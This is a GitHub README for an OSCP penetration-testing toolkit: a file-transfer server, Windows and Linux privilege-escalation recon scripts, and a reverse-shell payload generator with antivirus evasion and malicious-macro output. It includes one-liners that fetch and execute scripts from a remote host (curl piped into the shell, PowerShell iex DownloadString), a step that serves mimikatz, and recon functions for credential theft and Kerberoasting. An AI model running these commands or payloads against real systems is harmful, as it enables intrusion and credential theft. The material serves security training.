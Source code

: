 # OSCP python support tools

A small set of python tools developed to pass OSCP, this set consists of 3 scripts:

- Servpy to start services to transfer files via smb, ftp, http, https, scp, nc or socat & easy downloading tools
- recon.ps1 to assist in the windows privilege escalation process
- recon.sh to assist in the linux privilege escalation process
- Shellpy to generate payloads for reverse shells, optionally obfuscated to evade antivirus and in macro format for malicious documents
  (Shellpy can be found here --> https://github.com/KermitPurple96/Shellpy)
  
## Install
- pip install pyftpdlib pyopenssl colorama psutil
- git clone https://github.com/KermitPurple96/OSCP-PythonSupportTools
- git clone https://github.com/KermitPurple96/Shellpy

## Usage

1. Download tools
```bash
toolpy -t mimikatz -a x64  
```
![toolpy](https://github.com/user-attachments/assets/048e544d-112a-40a5-972b-59262bc08e64)


2. Run a server
```bash
servpy smb -u kermit -pw kermit123 -f mimikatz.exe
```
![servpy](https://github.com/user-attachments/assets/833c27d0-c865-4cfc-8c23-9fb611bbb768)


3. Load the script on Target Machine

For Linux
```bash
. <(curl 10.10.10.10/recon.sh)
```

For Windows
```powershell
iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/recon.ps1'))
```

Example funtions on windows:
```
PS> iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/recon.ps1'))

     ___  __    ___   ___
    /___\/ _\  / __\ / _ \  _ __ ___  ___ ___  _ __
   //  //\ \  / /   / /_)/ | '__/ _ \/ __/ _ \| '_ \
  / \_// _\ \/ /___/ ___/  | | |  __/ (_| (_) | | | |
  \___/  \__/\____/\/      |_|  \___|\___\___/|_| |_|

========================================================
                                            DannyDB@~>

[*] Auxiliary Tools:
    - aux.upload [file]               : Upload files to HTTP server via POST
    - aux.download [file]             : Perform GET to retrieve files

[*] Auxiliary Recon:
    - recon.dateScan                  : Files modified between two dates
    - recon.dateLast                  : Files modified less than 15 minutes ago
    - recon.portscan <host> [1-1024]  : Perform port scanning
    - recon.pingscan 10.10.10.        : Perform ping scan of /24 subnet
    - recon.pspy                      : Similar to pspy script
    - recon.servInfo                  : Information abaut a server

[*] General Recon:
    - recon.sys                       : System information
    - recon.users                     : User information
    - recon.programs                  : Program information
    - recon.protections               : Protection information
    - recon.process                   : Process information
    - recon.networks                  : Network information
    - recon.acl                       : File permission information

[*] Privesc Recon:
    - priv.installElev                : AlwaysInstallElevated privilege
    - priv.serv.dir                   : Service directory privilege
    - priv.serv.reg                   : Service registry privilege
    - priv.serv.unq                   : Unquoted service privilege
    - priv.cred.files                 : Known credential files privilege
    - priv.cred.history               : Credential history privilege
    - priv.owned.files                : File owner privilege
    - priv.search.fname               : Credential in file name privilege
    - priv.search.fcontent            : Credential in file content privilege
    - priv.search.sshkeys             : SSH file privilege
    - priv.search.register            : Credential in registry privilege
    - priv.search.events              : Credential in events (Admin.) privilege
    - priv.autorun                    : Scheduled tasks privilege

[*] AD Recon:
    - ad.psremote                     : Remote PowerShell privilege
    - ad.computers                    : Domain computers privilege
    - ad.users                        : Domain users privilege
    - ad.user <user>                  : Information about a user
    - ad.listusers                    : List common names for bruteforce
    - ad.groups                       : Domain groups privilege
    - ad.group <group>                : Information about a group
    - ad.spn                          : Kerberoasting accounts
    - ad.asrep                        : AS-REP Roasting users privilege

```


## Configuration

- On httpTempServ.py add your own into SHORTCUTS dictionary, add your own aliases pointing the file path to quickly access.
- Make sure that the aliases for recon.sh and recon.ps1 point to the correct path in your file system.
